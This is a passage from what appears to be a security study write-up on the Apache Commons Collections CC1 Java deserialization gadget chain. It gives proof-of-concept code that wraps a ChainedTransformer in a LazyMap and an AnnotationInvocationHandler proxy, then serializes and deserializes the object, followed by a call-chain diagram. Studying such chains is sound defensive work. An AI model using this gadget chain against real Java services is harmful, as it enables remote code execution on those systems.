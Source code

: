 ```java
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map LazyMap = org.apache.commons.collections.map.LazyMap.decorate(new HashMap(), chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, LazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(org.apache.commons.collections.map.LazyMap.class.getClassLoader(), org.apache.commons.collections.map.LazyMap.class.getInterfaces(), invocationHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, mapProxy);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(handler);
            objectOutputStream.close();

            // Deserialization
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/14.png" alt="">

# Call chain

```java
AnnotationInvocationHandler.readObject()
   *Map(Proxy).entrySet()
        *AnnotationInvocationHandler.invoke()
            LazyMap.get()/TransformedMap.setValue()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                        InvokerTransformer.transform()
```
